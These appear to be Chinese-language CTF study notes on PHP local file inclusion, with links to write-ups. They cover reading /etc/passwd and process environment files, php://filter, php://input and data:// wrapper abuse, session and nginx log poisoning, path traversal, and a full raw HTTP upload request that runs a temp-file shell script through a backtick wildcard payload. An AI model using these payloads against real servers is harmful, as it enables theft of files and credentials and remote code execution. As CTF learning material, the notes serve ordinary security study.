 文件包含

[TOC]



###### [HDCTF 2023]YamiYami

```
file:///etc/passwd

file:///proc/1/environ
```

session文件包含

[[HNCTF 2022 WEEK3\]QAQ_1inclu4e | NSSCTF](https://www.nssctf.cn/problem/3020)

[[HNCTF\]Web详解 - TTkali - 博客园 (cnblogs.com)](https://www.cnblogs.com/TTaly/p/16934584.html)

[详解利用session进行文件包含_利用session机制,将所有敏感文件都引入事先写好的session文件,只有session文件中-CSDN博客](https://blog.csdn.net/qq_38154820/article/details/120300273)

```
php://协议
php://filter和php://input，php://filter用于读取源码，php://input用于执行php代码。

一、php://filter
当它与包含函数结合时，php://filter流会被当作php文件执行。所以我们一般对其进行base64编码，阻止其不执行。从而导致任意文件读取。

二、 php://input
可以访问请求的原始数据的只读流, 将post请求中的数据作为PHP代码执行

方法2：date://伪协议执行命令
使用方法:data://text/plain;base64,xxxx(base64编码后的数据)
```

##### 日志包含

[包含日志文件getshell - myles007 - 博客园 (cnblogs.com)](https://www.cnblogs.com/my1e3/p/5854897.html)

ctfshow的web4

/var/log/nginx/access.log

当我们传入，会记录在日志中，可以包含，以前好像没怎么遇到过这种题。

###### 文件上传

```
POST /?cmd=?><?=`.+/??p/p?p??????`; HTTP/1.1
Host: 47fa7ca7-058a-42ff-b48f-de0382f95387.chall.ctf.show
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: multipart/form-data; boundary=---------------------------10242300956292313528205888
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: UM_distinctid=1739f845e394-0cffbf96840b0c8-4c302d7c-144000-1739f845e3b4e2
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 242

-----------------------------10242300956292313528205888
Content-Disposition: form-data; name="fileUpload"; filename="1.txt"
Content-Type: text/plain

#! /bin/bash

cat /flag.txt
-----------------------------10242300956292313528205888--

```

在ctf_show红包第二弹中，是命令执行，但他过滤了很多，无法异或，自增。所以用了这个上传临时文件的方法。

修改一个上传文件的包，文件会存为临时文件文件目录：/tmp/php??????,采用通配符，包含这个文件

pearcmd

[ctfshow 萌新22 （类似级客巅峰web4）_ctf register_argc_argv-CSDN博客](https://blog.csdn.net/qq_46091464/article/details/108954166)

[Docker PHP裸文件本地包含综述 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html)

###### include()

file=hint?../../../../../flag

include()包含这个变量，他会包含到flag